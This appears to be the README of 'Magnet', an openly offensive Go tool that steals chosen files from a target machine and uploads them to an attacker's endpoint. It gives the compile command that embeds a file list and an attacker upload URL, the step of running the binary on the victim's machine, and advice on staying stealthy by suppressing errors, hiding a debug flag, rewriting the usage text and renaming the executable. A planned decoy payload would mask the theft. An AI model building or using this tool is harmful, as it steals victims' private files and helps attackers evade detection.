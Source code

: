 # Magnet

<div align=center>
  <pre>🧲⚡
  <strong>Grab interesting files from remote</strong><br>
  All the job is done at compilation time</pre>
</div>



## Usage

**At compilation time** you need to specify:
* ***The remote endpoint***, where your will upload juicy files
* ***The Juicy files***, list of files you want to grab. (File are separated by a comma `,`)
* ***The target os***, to fit the target (between: `windows`, `darwin`, `linux`

So the compilation line looks like this:
```shell
export FILES=$(cat samples/linux_juicy_files.txt)
export ENDPOINT=http://[ATTACKER_UPLOAD_SITE]
GOOS=linux GOARCH=amd64 go build -ldflags "-X main.FileList=$FILES -X main.Endpoint=$ENDPOINT" magnet.go
```

Then on target machine:
```shell
./magnet #or magnet.exe
```

### Notes

* For the remote endpoint , I suggest you to use the `/push` endpoint of a [`gitar`](https://github.com/ariary/gitar) listener
* The software is built to be stealthy hence:
  * error handling is not verbose (hidden flag to get more verbosity `-thisisdebug`)
  * I suggest to overwrite usage string in `magnet.go` to fit your attack scenario
  * rename `magnet` executable

## To do

Include a fake payload that will also be run to fake an attacking scenario (example update, etc)
